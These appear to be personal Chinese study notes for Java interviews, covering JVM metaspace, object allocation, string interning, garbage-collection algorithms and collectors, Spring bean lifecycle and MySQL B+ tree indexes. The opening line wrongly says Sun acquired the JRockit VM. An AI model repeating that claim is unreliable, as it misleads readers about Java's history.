###### 为什么要改成元空间？

1. 为永久代设置空间大小很难，因为各种第三方jar用了大量的动态反射技术，会产生很多不确定的类，元空间使用本地内存
2. 因为sun收购了jrocket虚拟机，要进行兼容


### 对象的实例化与内存布局

#### 创建对象的方式

1. new对象
2. class的newInstance()只能调用空参
3. Constructor的newInstance()
4. 调用clone（），类实现Cloneable接口
5. 反序列化：从文件网络中获取对象二进制流
6. 第三方库


#### 创建对象的步骤

1. 判断对象对应类是否加载、链接、初始化
2. 为对象分配内存
   1. 如果内存规整：用**指针碰撞**（就是用指针把空间一分为二，当分配内存后，指针移动）
   2. 如果内存不规整：维护**空闲列表**保存没有使用的内存
3. 处理并发安全问题
   1. 采用CAS保证更新
   2. 为线程分配TLAB
4. 初始化分配到的空间（给默认值）
5. 设置对象的对象头
6. 使用init方法进行显示初始化


#### 对象的内存布局

以下面代码创建的对象为例

```java
public class StackTest {
    public static void main(String[] args) throws InterruptedException {
        Customer customer = new Customer();
    }

}
class Customer{
    private int id;
    private String name;
    private Acccount account;

    public Customer(){
        id = 1001;
        name = "匿名客户";
        account = new Acccount();
    }
}
class Acccount{}
```

可以画出下面的示例图来展示对象在虚拟机中的内存布局


#### 对象的访问方式

两种

- 句柄访问
  - 该方法如果发生垃圾回收实例数据地址改变，不会改变栈中指向堆得指针，只需要改变句柄池指针
  - 
- 直接指针
  - hotspot用的是这种方式
  - 该方法访问更快
  - 


### 执行引擎

将字节码指令解释/编译为对应平台上的本地机器指令

执行引擎同时拥有**解释器**和**JIT编译器**


解释器：当jvm启动时根据规范对字节码采用逐行解释的方法，然后直接执行

JIT编译器：将虚拟机源代码直接翻译为本地机器平台的机器语言


### 字符串

#### 字符串拼接

- 常量与常量的拼接结果在常量池，原理是编译期优化

  - ```
    final String s1 = "a";
    final String s2 = "b";
    String s3 = "ab";
    String s = s1+s2;
    s==s3 //true
    原理在于s1和s2现在不是变量而是常量。
    ```

    

- 常量池不会存在相同的常量

- 只要其中一个是变量，结果就在堆中（相当于new了对象），变量拼接的原理是StringBuilder

  - ```
    String s = s1+s2
    等价于创建一个StringBuilder对象，并调用其append方法
    ```

- 如果拼接的结果调用了intern方法，则主动将常量池没有的字符串放入池中，并返回此对象地址


通过StringBuilder的append方法的拼接要优于String自身的拼接操作，原因在于：

1. String自身拼接会不断创建StringBuilder对象和String对象
2. 创建过多的对象可能会造成频繁gc

对上面还可以改进，在实际开发中，可以在其构造函数中规定一个最大值，可以使得其byte数组不会因为扩容不断复制


#### intern()

intern确保常量池的字符只有一份，这样可以节约空间，加快字符串操作的执行速度，非常重要。

如果用的是new String()后面最好加上intern


##### 面试题

1、new  String("ab")会创建几个对象？

​	答：一个在是new在堆空间创建的对象，另外一个在常量池中的对象

2、new String("a")+new String("b")会创建几个对象？

​	答：一共5个，new了一个StringBuilder对象，new了两个String对象，字符串常量池添加了a和b常量的对象，==其实在Stringbuilder返回的toString方法中又创建了一个string对象==，同时注意字符串常量池中不会有ab


3、

```java
String a = new String("a")+new String("b");//a接受的是new String("ab")对象，并且没有在常量池生成ab
a.intern();//在常量池生成对象   注意在jdk7以后，因为字符串常量池搬到了堆中，因为在上面已经在堆中生成了ab对象，那么就不会再创建ab对象了，而是引用了ab对象
String b = "ab";
System.out.println(a==b);//true  ，所以其实两个指向的是一个位置
```


### 垃圾回收

垃圾：运行程序中没有任何指针指向该对象


#### 垃圾回收算法

##### 标记阶段

识别哪些是垃圾


###### 引用计数法

每个对象保存一个整形的引用计数器属性，如果引用计数器为0，该对象可进行回收

优点：实现简单，易于判断

缺点：需要每个对象单独存储计数器；无法处理循环引用


###### 可达性分析算法

java采用的标记算法，可以解决循环引用

只要没有被GC ROOTS直接或间接连接的对象就是垃圾



GC ROOTS的种类：

1. 虚拟机栈中引用的对象
2. 本地方法栈引用的对象
3. 静态变量引用的对象
4. 字符串常量池引用
5. 被同步锁持有的对象


##### 清除阶段

清除垃圾

###### 标记清除

​	标记的是可达对象，然后遍历堆清除掉没有被标记的对象 



​	缺点：

1. 效率不高
2. 进行gc需要停止整个应用程序
3. 容易产生内存碎片，需要额外维护一个空闲列表


###### 标记复制

​	将内存空间分为两块，每次只使用其中一块，垃圾回收时候把使用的一块的存活对象复制到另外一块空间。 

​	实际上survivor区的s1和s2就是使用了该算法



​	优点：

1. 实现简单，运行高效
2. 没有碎片


​	缺点：

1. 需要两倍的内存空间

   

###### 标记整理

用于老年代的收集算法



优点：

1. 没有碎片，不需要空闲列表维护
2. 消除了复制算法需要两倍内存的代价

缺点：

1. 效率低于复制算法
2. 移动过程需要暂停用户程序
3. 移动对象时候被其他对象引用，需要调整引用地址


#### 内存泄露

严格来说，只有对象不被程序用到，但gc又不会回收到他，最终会导致内存溢出


举例：

1. 单例模式
   1. 单例模式生命周期长，如果持有其他引用，那么其他引用指向的对象就不会被回收，导致内存泄露
2. 数据库连接、网络、IO没有关闭close，就会导致资源内存泄露


#### 引用级别

我们希望一类对象，在内存足够的时候保留在内存，如果内存不够，就被垃圾回收

下面的引用强度依次减弱

- 强引用：最常使用的
- 软引用：内存溢出之前，在第二次收集时候，如果没有足够内存，才会回收
- 弱引用：只能生存到下一次垃圾回收之前，只要垃圾回收就会被清除
- 虚引用：该引用唯一目的是能在这个对象被垃圾收集时候收到系统通知


##### 面试题

用过weakhashmap吗？


#### 垃圾收集器

主要关注吞吐量和低延迟

当前标准：在最大吞吐量优先的情况下，降低停止时间


##### 经典垃圾回收器

- 串行：Serial、Serial old
- 并行：ParNew、Parallel Scavenge、Parallel Old
- 并发：CMS、G1

与垃圾分代之间的关系




垃圾收集器的组合关系

红虚线是jdk8之前的组合关系

绿虚线是jdk14去除了

==jdk8默认使用Parallel GC和Parallel Old GC==



##### Serial回收器

最老的回收期

采用复制算法、串行回收和STW机制

老年代使用 Serial Old回收器，采用标记整理算法


优点：简单高效

缺点：吞吐量低，延迟高


##### ParNew

处理新生代的回收器，运行与多cpu上

在Serial基础上使用了并行的方式


优点：相对Serial，吞吐量高


##### Parallel

并行、复制算法、吞吐量优先、自适应调节策略（自动内存分配）

与Parallel old配合使用，old用来并行处理老年代，使用标记压缩算法


##### CMS

面试重点收集器

1.5推出的第一款并发收集器，第一次实现了垃圾收集线程与用户线程同时工作

特点是低延迟

CMS采用标记清除算法


工作原理

- 初始标记：用户线程STW，仅仅标记GC ROOTS能直接关联到的对象，速度非常快
- 并发标记：从GC ROOTS的直接关联对象遍历整个对象图
- 重新标记：修正并发标记期间，用户线程继续运行导致标记产生变动的一部分对象的标记
- 并发清除：并发清除死亡对象，释放内存




缺点：

- 产生内存碎片
- 对CPU资源非常敏感，降低吞吐量
- 无法处理在并发标记阶段产生新垃圾对象


##### G1区域分代化



官方给其目标是延迟可控的情况下获得尽可能高的吞吐量

G1是分区算法，可以处理新生代和老年代


使用不同的Region来处理eden、s0、s1和老年代，每次回收Region价值最高的，所以叫G1（Garbage first）

==jdk9的默认回收器==


优点：

1. 同时兼顾并行与并发
2. 分代收集，并且所有区域在物理上不要求连续
3. Region使用复制算法，整体上是标记整理算法
4. 限制停顿时间（G1只需要对部分区域进行回收）

缺点：

​	占用更多的内存空间


使用场景：

- 面向服务器端，大内存、多处理器
- 用来替换掉CMS
  - 超过一半的java堆被活动数据占用
  - 对象分配频率变化很大
  - GC停顿时间长（0.5-1秒）


##### 口诀

- 最小化使用内存和并行开销，用Serial
- 最大化应用程序的吞吐量，用Parallel
- 最小化GC的中断，用CMS




# 框架源码

## Spring

1. Spring读取配置文件类，读取其的@ComponetScan所需要扫描的类路径
2. 使用类加载器读取下面的所有类，如果类上有@Component等注解的话，把该类封装为BeanDefinition，并且放到beanDefinitionMap中
3. 完成扫描后，Spring对所有属性为单例的类，实例化，并放到singletonMap，方便后面getBean获取，并且在实例化的时候需要查看是否属性字段有@Autowired等注解，如果有给该字段注入属性对应值

### bean生命周期

1. class加载
2. 实例化
3. 得到原始对象
4. 属性填充
5. 后置处理器前调
6. 初始化实现InitlizationBean接口
7. 后置处理器后调


## mysql

mysql索引没有使用二叉树，因为碰到顺序元素会退化为链表

也没有采用红黑树，因为红黑树是二插，深度太高了


mysql底层使用的是b树，实际是b+树，叶节点存了实际的数据

